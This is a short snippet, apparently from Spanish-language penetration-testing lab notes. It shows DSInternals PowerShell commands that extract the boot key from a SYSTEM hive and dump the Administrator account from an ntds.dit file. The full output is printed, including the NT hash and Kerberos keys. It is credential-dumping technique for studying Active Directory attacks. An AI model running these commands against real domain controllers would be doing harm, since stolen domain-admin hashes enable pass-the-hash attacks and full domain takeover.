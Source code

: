 ### Usando DSInternals (PowerShell)

```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=Administrator,CN=Users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
# Muestra NTHash, Kerberos keys, etc.

DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
Sid: S-1-5-21-669053619-2741956077-1013132368-500
Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate: 5/6/2021 5:40:30 PM
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-669053619-2741956077-1013132368-512
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
  NTHashHistory:
  LMHashHistory:
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
    Kerberos:
      Credentials:
        DES_CBC_MD5
          Key: d60dfbbf20548938
      OldCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 94c300d0e47775b407f2496a5cca1a0a
          Iterations: 4096
        DES_CBC_MD5
          Key: d60dfbbf20548938
          Iterations: 4096
      OldCredentials:
      OlderCredentials:
      ServiceCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      DefaultIterationCount: 4096
      Flags: 0
```